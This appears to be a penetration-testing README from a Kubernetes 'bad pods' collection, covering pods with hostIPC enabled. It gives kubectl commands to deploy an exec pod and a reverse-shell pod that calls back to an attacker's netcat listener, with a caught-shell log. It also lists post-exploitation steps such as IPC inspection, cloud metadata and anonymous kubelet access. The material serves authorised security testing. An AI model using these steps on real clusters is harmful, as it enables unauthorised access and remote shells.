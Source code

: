 # Bad Pod #7: hostIPC

If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within a pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you will be able to read/write to those same mechanisms. That said, with things like message queues, even if you can read something in the queue, reading it is a destructive action that will remove it from the queue, so beware.
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 
# Pod Creation
## Create a pod you can exec into
Create pod
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml 
```
Exec into pod 
```bash
kubectl exec -it hostipc-exec-pod -- bash
```

## Reverse shell pod

Set up listener
```bash
nc -nvlp 3116
```

Create pod from local manifest without modifying it by using env variables and envsubst
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/pod/hostipc/pod/hostipc-revshell-pod.yaml | kubectl apply -f -
```

Catch the shell
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# Reference(s): 
* https://opensource.com/article/20/1/inter-process-communication-linux
